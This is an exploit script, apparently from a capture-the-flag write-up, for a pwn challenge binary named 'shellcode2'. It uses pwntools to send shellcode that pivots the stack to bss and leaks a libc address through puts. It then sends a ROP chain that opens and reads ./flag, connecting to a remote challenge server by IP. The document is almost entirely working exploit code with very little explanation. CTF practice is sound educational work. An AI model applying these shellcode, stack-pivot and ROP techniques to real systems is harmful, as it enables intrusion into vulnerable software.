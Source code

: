 ## EXPLOIT

```python
from pwn import *
import LibcSearcher
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./shellcode2')
        if lo & 2:
            gdb.attach(sh, gdbscript='b *0x4013f6')
        libc = ELF('/usr/lib/libc.so.6')
    else:
        sh = remote('106.14.57.14', 31751)
        libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6')
    elf = ELF('./shellcode2')
    bssHigh = 0x404800
    mmap = 0x2333000
    putsGot = elf.got['puts']
    putsPlt = elf.plt['puts']
    readPlt = elf.plt['read']

    # payload 1, read on bss and stack pivot to bss
    sh.recvuntil(b'0x16')
    code = f'''
    mov esp,{hex(bssHigh)}
    xor eax,eax
    xor edi,edi
    push rsp
    pop rsi
    push r14
    pop rdx
    syscall
    mov edi,{hex(putsGot)}
    ret
    '''
    sh.send(asm(code))

    # payload 2, leak libc
    sh.recvuntil(b'Love!\n')
    sh.sendline(p64(putsPlt) + p64(mmap))

    putsAddr = u64(sh.recv(6) + b'\0\0')
    # libc = LibcSearcher.LibcSearcher('puts', putsAddr & 0xfff)
    # libc.dump('system') # [+] ubuntu-glibc (id libc6_2.35-0ubuntu3.6_amd64) be choosed.
    libcBase = putsAddr - libc.symbols['puts']
    openAddr = libcBase + libc.symbols['open']
    gadgets = ROP(libc)
    popRdi = libcBase + gadgets.rdi.address
    popRsi = libcBase + gadgets.rsi.address
    popRdxRbx = libcBase + gadgets.rdx.address
    sleep(0.5)

    # payload 3, run shellcode again, put orw on bss, and stack pivot again
    offset = 16 * 8 # 16x addr to pop/jmp
    sh.sendline(p64(popRdi) + p64(bssHigh + offset) + p64(popRsi) + p64(0) + p64(openAddr) +
                p64(popRdi) + p64(3) + p64(popRsi) + p64(bssHigh + offset + 8) +
                p64(popRdxRbx) + p64(0x50) + p64(0) + p64(readPlt) +
                p64(popRdi) + p64(bssHigh + offset + 8) + p64(putsPlt) + b'./flag\0')

```